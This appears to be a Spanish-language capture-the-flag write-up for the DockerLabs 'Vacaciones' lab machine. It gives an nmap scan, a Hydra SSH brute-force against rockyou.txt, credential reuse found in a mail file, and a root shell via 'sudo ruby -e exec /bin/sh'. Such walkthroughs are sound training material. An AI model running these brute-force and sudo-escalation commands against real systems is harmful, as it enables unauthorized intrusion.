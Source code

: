 ```yaml
---
layout: single
title: Vacaciones - DockerLabs
excerpt: "Maquina Linux realizando intrusion por ataque de fuerza bruta al protocolo SSH"
date: 2024-05-22
classes: wide
header:
  teaser: https://pentest4noob.github.io/Writetups/assets/images/logos/logo_dockerlabs.png
  teaser_home_page: true
categories:
  - DockerLabs
tags:
  - linux
  - Muy facil
  - Fuerza Buta
  - Sudo
---
```


<p align="center">
  <img width="250" height="250" src="https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/vacaciones.jpg">
</p>

Esta maquina está clasificada como "Muy Facil" en la plataforma de [DockerLabs](https://dockerlabs.es/#/), muy útil para practicar ataque de fuerza bruta y una escalada de privilegios sencilla

# 1- Enumeración

Comenzamos con la etapa de enumeración para ello vamos a usar la herramienta nmap con los siguientes parámetros

```bash
sudo nmap -p- --open -sS -sC -sV -n -Pn 172.17.0.2 -oN nmap.txt
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -p-       | Escanear todos los puertos         |
| --open    | Mostrar los puertos abiertos       |
| -sS       | Sondeo de tipo SYN sigiloso        |
| -sV       | Habilita la detección de versiones |
| -n        | Sin resolución de DNS              |
| -Pn       | Omitir el descubrimiento de hosts  |
| -oN       | Formato de salida del archivo      |

```css
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
ssh-hostkey:
   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
_http-title: Site doesn't have a title (text/html).
_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Solamente estan abiertos 2 puertos el 22 donde corre el servicio `SSH` y el 80 donde corre el servicio `http` con Apache, voy a ver que en el servidor web coloco la url `http://172.17.0.2`

![000Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/000Vacaciones.png)

carga un página en blanco, voy a revisar el código fuente presioando las teclas `ctrl + u`

![0001Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/001Vacaciones.png)

veo un mensaje, el cual me sirve para enumerar 2 posibles usuario Juan y Camilo, por lo tanto voy a realizar un ataque de fuerza bruta con estos usuario al servicio `SSH`.

Primero voy a crear un listado de usuarios con el editor de texto `nano` al que voy a llamar `usuarios.txt` y le voy agregar los posibles usuario que encontré anteriormente ahora si voy a realizar el ataque de fuerza bruta con `Hydra`

![002Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/002Vacaciones.png)

```bash
hydra -L usuarios.txt -P /usr/share/wordlists/rockyou.txt -t 64 ssh://172.17.0.2
```

| Parametro | Descripción                        |
| --------- | ---------------------------------- |
| -L        | ruta de lista de usuarios          |
| -P        | ruta del diccionario de contraseña |
| -t        | cantidad de hilos                  |
| ssh       | protocolo a realizar fuerza bruta  |

Consigo la contraseña del usuario camilo.

```css
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

# 2- Intrusion

Momento de realizar la conexión por SSH con las credenciales recién adquiridas

```bash
ssh camilo@172.17.0.2
```

procedo a buscar el correo que Juan le había dejado a Camilo usando la herramienta find

```bash
find / -iname *correo* 2>/dev/null
```

| parametro   | descripcion                                      |
| ----------- | ------------------------------------------------ |
| -iname      | para no distinguir entre mayúsculas y minúsculas |
| \*          | caracter comodin                                 |
| 2>/dev/null | para no mostrar los errores en pantalla          |

me arroja como resultado la siguiente ruta `/var/mail/correo.txt`

![004Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/004Vacaciones.png)

ejecuto `su juan` para cambiar al usuario juan e ingreso la contraseña que me indicó en el correo `2k84dicb`

# 3- Escalada de Privilegios

Ahora como Juan busco como escalar privilegios con `sudo -l` como resultado veo que tengo permisos para ejecutar el binario `ruby`

![005Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/005Vacaciones.png)

Me apoyo de la pagina [GTFObins](https://gtfobins.github.io/) para ver como escalar privilegios

ejecutando el siguiente comando

```bash
sudo ruby -e 'exec "/bin/sh"'
```

Listo conseguí escalar privilegios, ahora soy el usuario root

![006Vacaciones.png](https://pentest4noob.github.io/Writetups/assets/images/writetup/dockerlabs/vacaciones/006Vacaciones.png)
